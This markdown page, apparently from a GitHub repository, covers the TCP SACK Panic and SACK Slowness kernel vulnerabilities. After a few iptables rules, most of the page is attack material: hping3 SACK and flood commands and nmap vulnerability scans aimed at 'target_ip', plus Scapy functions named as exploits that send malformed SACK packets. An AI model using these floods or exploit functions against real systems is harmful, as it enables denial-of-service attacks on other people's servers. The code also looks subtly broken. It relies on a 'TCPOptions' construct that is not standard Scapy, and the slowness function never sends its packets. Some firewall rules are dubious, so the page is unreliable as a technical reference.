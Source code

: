 ### Firewall Rules:
```bash
# Block malformed SACK packets (requires deep inspection)
iptables -A INPUT -p tcp -m string --hex-string "|050a|" --algo kmp -j DROP

# Rate limit SACK-enabled connections
iptables -A INPUT -p tcp --tcp-option 5 -m limit --limit 10/sec -j ACCEPT
iptables -A INPUT -p tcp --tcp-option 5 -j DROP

# Advanced TCP option filtering
iptables -A INPUT -p tcp -m tcpmss --mss 1:500 -j DROP
```

## 🔧 Attack Tools & Commands

### Manual Testing:
```bash
# Test SACK vulnerability (use with caution)
hping3 -S -p 80 --tcp-option 5,10,1,2,3,4,5,6,7,8 target_ip

# SACK flood test
hping3 -A -p 80 --tcp-option 5,18,0x01020304,0x05060708,0x090a0b0c,0x0d0e0f10 --flood target_ip

# Check SACK support
nmap --script tcp-sack-vuln target_ip

# Vulnerability scanning
nmap -sS -O --script vuln target_ip
```

### Scapy Exploitation:
```python
from scapy.all import *

def sack_panic_attack(target_ip, target_port):
    """SACK Panic vulnerability exploit"""
    # Malformed SACK blocks causing integer overflow
    sack_option = TCPOptions([
        ('SAck', [
            (0x01020304, 0x05060708),  # Invalid range
            (0xfffffffe, 0x00000002),  # Overflow condition
            (0x80000000, 0x7fffffff),  # Edge case values
        ])
    ])
    
    packet = IP(dst=target_ip) / \
             TCP(dport=target_port, flags="A", options=sack_option)
    
    send(packet, verbose=1)

def sack_slowness_attack(target_ip, target_port, count=100):
    """SACK Slowness resource exhaustion"""
    for i in range(count):
        # Complex overlapping SACK blocks
        sack_blocks = []
        for j in range(4):  # Maximum SACK blocks
            start = j * 1000 + random.randint(1, 500)
            end = start + random.randint(100, 2000)
            sack_blocks.append((start, end))
        
        sack_option = TCPOptions([('SAck', sack_blocks)])
        packet = IP(dst=target_ip) / \
                 TCP(dport=target_port, flags="A", options=sack_option)
```